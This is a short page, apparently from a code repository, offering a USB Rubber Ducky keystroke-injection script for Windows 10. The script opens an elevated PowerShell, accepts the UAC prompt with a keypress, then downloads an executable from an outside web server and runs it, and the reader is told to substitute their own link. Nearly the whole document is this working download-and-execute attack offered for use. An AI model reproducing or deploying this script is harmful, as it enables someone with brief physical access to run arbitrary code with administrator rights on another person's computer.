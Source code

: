 A ducky script that uses the powershell to download and execute a file from a webserver, then close all powershell windows (with another powershell). Intended for use with windows 10 target, but probably works with Windows 7 and 8.

Change the link and what name to save the file as.


Preview: https://www.youtube.com/watch?v=gGHjdtamQ9A

```
REM Windows 10: Poweshell administrator download and execute file
REM Author: Judge2020
REM author website: Judge2020.com
REM
REM start of script
REM
REM let the HID enumerate
DELAY 2000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 500
STRING $down = New-Object System.Net.WebClient; $url = 'http://www.greyhathacker.net/tools/messbox.exe'; $file = 'mess1.exe'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;
```